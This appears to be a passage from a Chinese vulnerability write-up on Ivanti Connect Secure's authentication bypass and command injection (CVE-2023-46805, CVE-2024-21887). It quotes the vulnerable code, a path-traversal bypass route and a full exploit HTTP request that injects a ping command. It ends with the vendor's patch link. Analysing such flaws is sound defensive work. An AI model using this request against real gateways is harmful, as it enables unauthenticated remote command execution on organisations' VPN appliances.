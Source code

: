 可见，鉴权操作在`doAuthCheck` 函数中进行

找到 `doAuthCheck`函数进行分析，可以看到如下代码：

```bash
iVar8 = strncmp(pcVar7,"/api/v1/totp/user-backup-code",0x1d);
if (iVar8 == 0) {
    return true;
}
```

如果所访问的路由以 `/api/v1/totp/user-backup-code` 开头，则不需要鉴权，因而可以构造这样的路由：

```bash
/api/v1/totp/user-backup-code/../../{{evil}}
```

来实现鉴权的绕过

在项目源码中搜索 `os.system` 最终找到一个路由 `/api/v1/license/keys-status/<path:node_name>` 可以触发命令注入：

```bash
def get(self, url_suffix=None, node_name=None):
    if request.path.startswith("/api/v1/license/keys-status"):
        try:
            dsinstall = os.environ.get("DSINSTALL")
            if node_name == None:
                node_name = ""
            proc = subprocess.Popen(
                dsinstall
                + "/perl5/bin/perl"
                + " "
                + dsinstall
                + "/perl/getLicenseCapacity.pl"
                + " getLicenseKeys "
                + node_name,
                shell=True,
                stdout=subprocess.PIPE,
            )
```

因而可以构造这样的报文实现未授权命令注入：

```bash
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

# 0x05 漏洞修复

厂商已发布漏洞修复程序，请前往以下地址进行更新。  
[https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en\_US](https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US)
